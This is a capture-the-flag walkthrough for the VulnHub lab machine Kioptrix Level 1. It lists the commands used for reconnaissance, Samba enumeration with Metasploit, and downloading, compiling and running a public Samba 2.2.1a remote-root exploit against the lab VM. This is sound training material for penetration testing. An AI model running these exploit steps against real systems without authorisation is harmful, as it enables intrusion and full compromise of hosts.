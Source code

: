 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF ]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
is_retired: true  # <-- Set to false if the machine is still active
---
```


## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](/assets/1kioprix.png)

## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](/assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](/assets/4kioptrix.png)
![Kioptrix VM Running](/assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](/assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](/assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](/assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](/assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](/assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](/assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](/assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](/assets/13kioptrix.png)
![Kioptrix VM Running](/assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**
